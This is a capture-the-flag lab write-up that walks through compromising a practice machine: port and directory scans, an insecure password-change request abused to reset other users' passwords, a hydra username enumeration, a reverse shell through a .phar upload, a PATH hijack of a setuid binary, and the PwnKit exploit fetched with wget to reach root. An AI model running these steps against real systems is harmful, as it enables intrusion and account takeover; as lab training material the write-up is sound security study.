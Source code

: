 # CTF 03

>IP=192.168.10.16
>
>The flag is stored in the root.txt file.

## nmap

```bash
$ nmap -sV -Pn $IP -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 17:55 CEST
Nmap scan report for 192.168.10.16
Host is up (0.0043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds

```

## gobuster

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 17:56:24 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/config               (Status: 301) [Size: 315] [--> http://192.168.10.16/config/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.10.16/css/]   
/index.php            (Status: 200) [Size: 810]                                   
/js                   (Status: 301) [Size: 311] [--> http://192.168.10.16/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/upload               (Status: 301) [Size: 315] [--> http://192.168.10.16/upload/]
                                                                                  
===============================================================
2022/06/13 17:56:26 Finished
===============================================================
```

With "gobuster" we found interesting the discovery of the "upload" directory which opens the possibility to maybe upload a file to the machine.

## http
`$IP:80`
apache server with php.

Open in browser, register an account.
```
username: pascal
email: pascal@bosym.de
password: pascal
```

### Change password

Using a authenticated account and burb, we manage to change the password of other userids by changing the id in the post request using burp.

```
POST /dashboard.php?id=3 HTTP/1.1
Host: 192.168.10.16

password=root&id=1
```

Changed the password of user 1 and 2, since my account is 3.

Now find the usernames using bruteforce by creating new users. if the username exists the registration will fail:

```bash
$ hydra -L /usr/share/wordlists/simple-users.txt -p root $IP http-post-form "/register.php:username=^USER^&password=^USER^&email=^USER^%40bosym.de:Register Successful" -V
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-14 12:54:39
```


With the output the username shoulb be either `admin` or `GUEST`.


Then, we login with `admin:root` and discovered that you can upload a file to the server.

## Reverse shell
> Sorry , Allow Ex : jpg,png,gif

It works with [`.phar`](shell.phar).

`nc -lvp 1337`

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ ls -lah /home
total 16K
drwxr-xr-x  4 root     root     4.0K Jul 16  2021 .
drwxr-xr-x 20 root     root     4.0K Jul 15  2021 ..
drwxr-xr-x  4 darkhole darkhole 4.0K Jul 17  2021 darkhole
drwxrwxrwx  5 john     john     4.0K May 15 15:40 john

$ ls -lah /home/john
total 76K
drwxrwxrwx 5 john     john     4.0K Jun 14 15:32 .
drwxr-xr-x 4 root     root     4.0K Jul 16  2021 ..
-rw------- 1 john     john     2.0K Jun 14 14:40 .bash_history
-rw-r--r-- 1 john     john      220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john     john     3.7K Jul 16  2021 .bashrc
drwx------ 2 john     john     4.0K Jul 17  2021 .cache
drwxrwxr-x 3 john     john     4.0K Jul 17  2021 .local
-rw------- 1 john     john       37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john     john      807 Jul 16  2021 .profile
drwxrwx--- 2 john     www-data 4.0K Jun 14 15:15 .ssh
-rwxrwx--- 1 john     john       33 Jun 14 15:06 file.py
-rwxrwx--- 1 john     john        8 Jul 17  2021 password
-rwsr-xr-x 1 root     root      17K Jul 17  2021 toto
-rw-rw---- 1 john     john       44 May 15 15:36 user.txt

```

We found there is a [`toto`](toto) binary file. Using [`objdump -d toto > disassembly.asm`](disassemly.asm) and `strings toto`, we can see, that the calls `setgid`, `setuid` and `system` are being used. When executed the output is:

```bash
$ /home/john/toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

So it sets the uid for the `system('id')` command. From the [Linux man page](https://man7.org/linux/man-pages/man3/system.3.html) for system under caveats it says:

> Do not use system() from a privileged program (a set-user-ID or
> set-group-ID program, or a program with capabilities) because
> strange values for some environment variables might be used to
> subvert system integrity.  For example, PATH could be manipulated
> so that an arbitrary program is executed with privilege.

so we change the path variable, create a "fake" `id`, execute it and change the path back.

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

$ echo "#!/bin/bash
/bin/bash -i" > ./id

$ chmod +x id

$ PATH=/home/john ./toto

john@darkhole:/home/john$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

john@darkhole:/home/john$ cat password
root123

john@darkhole:/home/john$ cat user.txt
cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}
```

Now we can login via ssh with `john:root123` using `ssh john@$IP` to close the reverse shell.


## Privilege escalation

With "john" as user, run [linpeas](https://github.com/carlospolop/PEASS-ng) ([Output](linpeas.txt)) to search for ways to escalate privilege.

The logs show a possibility for CVE-2021-4034.

Using the [PoC for PwnKit](https://github.com/arthepsy/CVE-2021-4034), compile and run it.

```bash
john@darkhole:~$ wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c
2022-06-14 16:24:48 (116 MB/s) - ‘cve-2021-4034-poc.c’ saved [1267/1267]

john@darkhole:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc

john@darkhole:~$ ./cve-2021-4034-poc 
# id
uid=0(root) gid=0(root) groups=0(root),1001(john)

# ls -lah /root
total 44K
drwx------  6 root root 4.0K Jul 17  2021 .
drwxr-xr-x 20 root root 4.0K Jul 15  2021 ..
-rw-------  1 root root 3.0K Jun 14 15:29 .bash_history
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K Jul 17  2021 .cache
drwxr-xr-x  3 root root 4.0K Jul 17  2021 .local
-rw-------  1 root root   18 Jul 15  2021 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 15  2021 .ssh
-rw-r--r--  1 root root   44 May 15 15:37 root.txt
drwxr-xr-x  3 root root 4.0K Jul 15  2021 snap

# cat /root/root.txt
cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}
```

## Flags

User: `cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}`

Root: `cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}`
